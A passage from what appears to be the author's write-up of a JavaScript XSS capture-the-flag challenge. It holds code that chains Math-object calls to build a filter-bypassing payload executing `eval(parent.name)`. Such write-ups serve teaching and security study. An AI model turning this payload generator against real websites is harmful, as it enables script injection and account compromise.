 ``` js
      addFunction('Math.exp')
      addFunction('Math.abs.name.constructor.fromCharCode')
      addFunction(`${arrName}.push`)
      currentIndex++
    } else {

      let mathResult = findTargetNumber(currentIndex, char.charCodeAt(0))
      mathResult.reverse() // remember to reverse cause the order
      for(let row of mathResult) {
        addFunction(row)
      }
      addFunction('Math.abs.name.constructor.fromCharCode')
      addFunction(`${arrName}.push`)
      currentIndex++
    }
  }

  // add eval structure
  addFunction('Math.random.name.valueOf')
  addFunction(`${arrName}.join`)
  addFunction('Math.abs.constructor')
  addFunction('Math.abs.constructor.prototype.call.call')

  return ans.reverse()

  function addFunction(name){
    ans.unshift(name)
    codeResult = `${name}(${codeResult})`
  }
}

Math.seeds = []
// @credit: @DrBrix
const arr = buildExploit('Math.seeds', 'eval(parent.name)')
console.log('length:', arr.length)
console.log(arr.join(','))
```

Perhaps there might be something even shorter, but I'm too lazy to search for it.

## Conclusion

The above is the solution to the challenge and the thought process behind it.

Originally, the ideal situation was to find a usable array directly from Math, without needing `Math.seeds`. However, upon trying, it seems I couldn't find such a solution.

I've also learned a lot from other hackers' solutions, like clearing the array or achieving even shorter payloads, things I didn't anticipate when designing the challenge. Kudos to all the hackers!

I hope that everyone has learned something from this challenge and had a great time participating.

Thank you all for your participation, and I look forward to crossing paths again in future challenges!

